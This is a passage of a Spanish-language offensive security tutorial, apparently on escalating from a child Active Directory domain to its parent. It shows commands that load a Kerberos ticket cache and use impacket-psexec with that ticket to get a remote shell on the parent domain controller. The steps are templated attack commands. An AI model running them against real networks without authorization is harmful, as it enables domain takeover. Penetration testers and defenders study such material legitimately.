 ### Paso 2: Configurar el Ticket

Configura el ticket como la credencial Kerberos activa en tu entorno:

```bash
export KRB5CCNAME=$(pwd)/<NOMBRE_TICKET>.ccache
```

### Paso 3: Acceder al Dominio Padre

Usa herramientas de Impacket como `impacket-psexec` para autenticarte en el controlador de dominio del dominio padre:

```bash
impacket-psexec -k -no-pass <DOMINIO_HIJO>/<NOMBRE_USUARIO>@<IP_DC_PADRE>
```

- `-k`: Usa autenticación Kerberos con el ticket generado.  
- `-no-pass`: No requiere contraseña adicional.  
